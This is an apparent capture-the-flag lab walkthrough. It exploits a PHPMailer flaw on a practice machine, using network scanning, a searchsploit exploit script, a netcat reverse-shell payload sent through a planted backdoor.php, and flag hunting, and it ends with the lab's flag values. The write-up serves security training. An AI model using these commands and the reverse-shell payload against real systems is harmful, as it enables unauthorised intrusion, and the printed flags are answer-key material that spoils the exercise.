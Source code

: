 # **TARGET 2 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You must report your findings to the SOC manager and the engineering manager with appropriate analysis.

>##### Note: This walkthrough detail one method to exploit the vulnerable machine. There are several alternatives to explore.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. A glimpse at the Kali Linux machine IP and network addresses.

        ifconfig

    ![1](/Resources/Images/2/1.PNG)

2. Network FootPrinting (find machines on the network).

        nmap 192.168.1.0/24

    ![2](/Resources/Images/2/2.PNG)

3. Target2 fingerprinting (find services and ports on target2).

        nmap -sV 192.168.1.115 

    ![3](/Resources/Images/2/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto.

        nikto -C all -h 192.168.1.115

    ![4](/Resources/Images/2/4.PNG)

5. Scan for paths using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Resources/Images/2/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser.
   
        192.168.1.115/vendor/

    **PHPMAILER detected.**

    ![6](/Resources/Images/2/6.PNG)     
   
7. Double click "PATH".

    **flag1**

    ![7](/Resources/Images/2/7.PNG)

8. Double "Click SECURITY.md".

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Resources/Images/2/8.PNG)    

9.  Double "Click VERSION".

    **It reveals the PHPMAILER version in use.**

    ![9](/Resources/Images/2/9.PNG)  

10. Search for scripts to exploit PHPMAILER with Searchsploit.

        searchsploit phpmailer

    ![10](/Resources/Images/2/10.PNG)  

11. A glance at script 40968.sh

        searchsploit phpmailer -x php/webapps/40968.sh     

    **Press "q" keyboard to quit view.**

    ![11](/Resources/Images/2/11.PNG) 

12. Download the script to the current folder.

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Resources/Images/2/12.PNG)

13. Authorize file to execute.

        sudo chmod 777 40968.sh

14. Run exploit.

        ./40968.sh 192.168.1.115

    ![13](/Resources/Images/2/13.PNG)

    > Note: PHPMAILER can be exploited. Nevertheless,  the shell from this script does not allow us to do much. After researching, "exploit.sh" was discovered. It allows for creating a more useful shell.

    Script: [exploit.sh](/Resources/files/exploit.sh)

15. Change the URL on the script.

        nano exploit.sh

    ##### Note: **To exit nano: "CTRL X", then "y" and "enter".**

    ![14](/Resources/Images/2/14.PNG)

16. Authorize file to execute.

         sudo chmod 777 exploit.sh

17. Execute the file.

        ./exploit.sh

    ![15](/Resources/Images/2/15.PNG)

18. Set Kali Linux Machine to listen using the NetCat command.

         nc -lnvp 4444

    ![16](/Resources/Images/2/16.PNG)

19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 4444 -e /bin/bash

    **Change the second IP address in the payload to the IP address of your own kali Linux machine.**

    ![17](/Resources/Images/2/17.PNG)

20. Look for flags.

        find /var/www -type f -iname 'flag*'

    **flag2 and flag3.**

    ![18](/Resources/Images/2/18.PNG)

21. Open the flag2 file.

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Resources/Images/2/19.PNG)

23. Insert the path for flag 3 in the browser.

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
    
    ![20](/Resources/Images/2/20.PNG)

# FLAGS

flag1{a2c1f66d28051bd3a5874b5b6r43e21}

flag2{6a8ed560f0b5358ecf844108048eb337}

flag3{a0f568aa9de277887f37730d71520d9b}